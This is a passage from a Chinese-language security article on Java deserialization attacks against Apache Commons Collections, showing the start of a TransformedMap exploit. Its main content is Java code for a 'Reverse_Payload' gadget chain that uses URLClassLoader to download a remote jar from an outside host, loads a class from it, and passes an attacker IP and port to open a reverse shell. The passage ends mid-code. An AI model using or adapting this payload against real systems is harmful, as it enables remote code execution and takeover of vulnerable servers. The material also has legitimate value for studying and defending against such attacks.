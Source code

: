 **效果<br>**

[![](https://p1.ssl.qhimg.com/t01616517de9852d94c.jpg)](http://www.iswin.org/attach/reverse.png)

****

**TransformedMap的实现方式**

直接上代码



```
import java.io.File;
import java.io.FileInputStream;
import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import java.util.Map.Entry;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
/**
 * @ClassName: Main.java
 * @Description: TODO
 * @author iswin
 * @email admin@iswin.org
 * @Date 2015年11月8日 下午12:12:13
 */
public class Main `{`
public static Object Reverse_Payload(String ip, int port) throws Exception `{`
final Transformer[] transforms = new Transformer[] `{`
new ConstantTransformer(java.net.URLClassLoader.class),
// getConstructor class.class classname
new InvokerTransformer("getConstructor",
new Class[] `{` Class[].class `}`,
new Object[] `{` new Class[] `{` java.net.URL[].class `}` `}`),
// newinstance string http://www.iswin.org/attach/iswin.jar
new InvokerTransformer(
"newInstance",
new Class[] `{` Object[].class `}`,
new Object[] `{` new Object[] `{` new java.net.URL[] `{` new java.net.URL(
"http://www.iswin.org/attach/iswin.jar") `}` `}` `}`),
// loadClass String.class R
new InvokerTransformer("loadClass",
new Class[] `{` String.class `}`, new Object[] `{` "R" `}`),
// set the target reverse ip and port
new InvokerTransformer("getConstructor",
new Class[] `{` Class[].class `}`,
new Object[] `{` new Class[] `{` String.class `}` `}`),
// invoke
new InvokerTransformer("newInstance",
new Class[] `{` Object[].class `}`,
new Object[] `{` new String[] `{` ip + ":" + port `}` `}`),
new ConstantTransformer(1) `}`;
Transformer transformerChain = new ChainedTransformer(transforms);
Map innermap = new HashMap();
innermap.put("value", "value");
Map outmap = TransformedMap.decorate(innermap, null, transformerChain);
```